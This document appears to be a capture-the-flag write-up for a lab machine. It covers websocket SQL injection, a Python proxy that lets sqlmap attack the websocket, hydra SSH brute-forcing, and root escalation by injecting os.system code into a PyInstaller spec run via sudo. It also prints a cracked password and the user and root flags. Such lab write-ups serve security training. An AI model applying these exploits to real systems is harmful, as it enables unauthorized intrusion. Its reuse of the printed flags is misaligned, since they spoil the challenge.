 IP=`10.10.11.206`

After the initial enumeration and finding open ports on `22, 80, 5789`. We can try connecting to websockets running on port `5789` with `wscat`. Very quickly, we find a `sqli` vulnerability within the service. Which allows us the opportunity to get the admin password hash. Which is just simple MD5. After running this through crackstation.com, the password/username is:
`admin:denjanjade122566`.

### SQLMAP through proxy

We already explored the `/version` path and extracted credentials with it due to a SQLi vulnerability, we can try now the same vulnerability but with the `/update` path. In this case instead of manual exploitation we will try to automate the exploitation with the help of a proxy and [sqlmap](https://sqlmap.org/).

#### Proxy
Due to the fact SQLMap only works with GET and POST requests we need to create an abstraction that enables us to interact with the websocket from these types of requests. This we will use a proxy that can be seen in this [blogpost](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html), with some tweaks for our usecase:
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://qreader.htb:5789/update"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace("'",'\\\"') # replacing ' with \\" to avoid breaking JSON structure
	data = '{"version":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now if we test the bridge built between the `sqlmap` and the websocket by running both:

```bash
$ python3 proxy.py 
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

```bash
$ sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

Afterr running this, we can see sqlmap successfully interacting with the websocket service.

```bash
sqlmap -u "http://localhost:8081/?id=1" --level=5 --risk=3 --tables
```

Next:
```bash
sqlmap -u "http://localhost:8081/?id=1" --level=5 --risk=3 -T answers --dump
```

I couldn't find much useful information, so I ended up just brute forcing `SSH` using `hydra` and the password found earlier.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p denjanjade122566 ssh://10.10.11.206
```

From this, we find the user `tkeller`.

##### SSH Login as tkeller
```bash
ssh tkeller@10.10.11.206
denjanjade122566
```


```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
tkeller@socket:~$ echo 'import os;os.system("mkdir /tmp/ep && cp /bin/bash /tmp/ep/bash && chmod u+s /tmp/ep/bash")' > b17.spec
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build b17.spec 
416 INFO: PyInstaller: 5.6.2
416 INFO: Python: 3.10.6
419 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
424 INFO: UPX is not available.
tkeller@socket:~$ ls /tmp/ep
bash
tkeller@socket:~$ /tmp/ep/bash -p
bash-5.1# id
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) groups=1001(tkeller),1002(shared)
bash-5.1# ls /root
cleanup  root.txt  snap
bash-5.1# cat /root/root.txt
a0b47c925a1a1844500df525e4da5c91
bash-5.1# ls
b17.spec  user.txt
bash-5.1# cat user.txt
16c7bda674a650ae654c5b63fd5da842
bash-5.1#
```


